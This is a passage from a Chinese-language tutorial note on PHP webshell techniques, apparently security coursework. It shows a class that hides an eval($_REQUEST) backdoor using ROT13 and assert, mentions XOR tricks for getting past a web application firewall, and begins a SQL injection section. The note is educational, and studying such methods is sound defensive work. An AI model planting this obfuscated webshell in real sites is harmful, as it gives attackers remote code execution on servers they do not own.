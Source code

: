 ```php
//?name=phpinfo();
class Student{
    public $xw = null;
    public $xl = null;
    function __construct(){
        $this->xw = "riny(\$_ERDHRFG['anzr'])";   //对应eval($_REQUEST['name]);,需要对$进行转义
        $this->xl = str_rot13($this->xw);
        @assert($this->xl);
    }
}
new Student();
```

![魔术方法](../../images/8-17-afternoon/魔术方法.png)

###### ④创建匿名方法

```php
<?php
$func1 = create_function('$a,$b','return ($a + $b);');
echo $func1(10,20);
?>
```

![匿名函数](../../images/8-17-afternoon/匿名函数.png)

##### k. 异或运算

* 通过异或运算ASCII值，来绕过WAF



## 四、SQL注入

### 1简单介绍
